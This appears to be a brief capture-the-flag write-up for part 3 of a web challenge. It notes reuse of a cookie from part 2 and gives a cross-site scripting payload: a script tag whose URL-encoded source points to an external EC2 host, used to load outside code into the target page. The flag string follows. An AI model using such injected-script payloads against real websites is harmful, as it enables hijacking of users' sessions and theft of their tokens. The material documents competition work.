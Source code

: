 And for the last challenge, can you get the last token? Same website as before


https://wallowing-wallabies.ctfcompetition.com/

----

Using the cookie from part 2 opens up the user manager.

https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/characters

'<script
src="https:////%65%63%32%2D%35%34%2D%31%38%36%2D%32%39%2D%37%32%2E%75%73%2D%77%65%73%74%2D%32%2E%63%6F%6D%70%75%74%65%2E%61%6D%61%7A%6F%6E%61%77%73%2E%63%6F%6D"></script>

part 3: CTF{intents_is_the_INTENTed_way_to_solve_some_an_android_level}
